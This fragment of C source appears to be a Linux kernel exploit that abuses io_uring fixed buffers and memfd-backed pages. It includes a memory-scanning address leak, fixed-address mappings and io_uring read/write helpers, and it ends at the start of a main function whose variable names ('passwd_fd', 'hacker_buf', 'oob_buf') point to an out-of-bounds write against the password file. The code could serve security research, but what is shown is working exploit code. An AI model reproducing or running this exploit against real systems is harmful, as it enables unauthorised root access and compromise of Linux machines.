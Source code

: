 ```
}
int setup_memfd_physics(char* name,int real_size){
    int fd = memfd_create(name,MFD_CLOEXEC);
    fallocate(fd,0,0,PAGE_SIZE*real_size);
    return fd;
}

int leak_addr(void* addr,uint64_t size){
    int  ret = -1;
    uint64_t* tmp = (uint64_t* )addr;
    for (size_t i = 0; i < size/8; i++)
    {
        // if( tmp[i] != 0)
        //     logi(" addr: %p offset: 0x%llx -> %p",addr+i,i,tmp[i]);
        if(tmp[i]==0x484a801d00008000){
            logw("successful!! addr: %p offset: 0x%llx -> %p",addr+i*8,i*8,tmp[i]);
            ret = i*8-0x40;
        }     
    }
    return ret;  
}
void memfds_bind_virtual(int fd, int size){
    for (size_t i = 0; i < size; i++)
    {
        if( mmap(VIR_START_ADDR+i*PAGE_SIZE , PAGE_SIZE,PROT_READ|PROT_WRITE,
                       MAP_SHARED|MAP_FIXED,fd,0 )==MAP_FAILED )
                       die("failed mmap memfds_buf");
    }
}
void submit_sqe(struct io_uring* ring,int fd,void* buf, unsigned int size,int FLAGS){
    struct io_uring_sqe * sqe;
    struct io_uring_cqe* cqe;
    int ret;
    sqe = io_uring_get_sqe(ring);
    switch (FLAGS)
    {
    case SUBMIT_WRITE:
        io_uring_prep_write_fixed(sqe,fd,buf,size,0,0);
        break;
    case SUBMIT_READ:
        io_uring_prep_read_fixed(sqe,fd,buf,size,0,0);
        break;
    default:
        return;
    }
    ret = io_uring_submit(ring);
    if (ret < 0) {
        die("failed io_uring_submit");
    }
    io_uring_wait_cqe(ring,&cqe);
    io_uring_cqe_seen(ring,cqe);
}


int main(void){
    int ret,nr_memfds,nr_files,tmp;
    int *memfds,*files;
    int recv_fd,block_size;
    int nr_pages;
    void* oob_buf ,*recv_buf;
    int passwd_fd,passwd_size;
    char* hacker_buf;
    int hacker_len;
```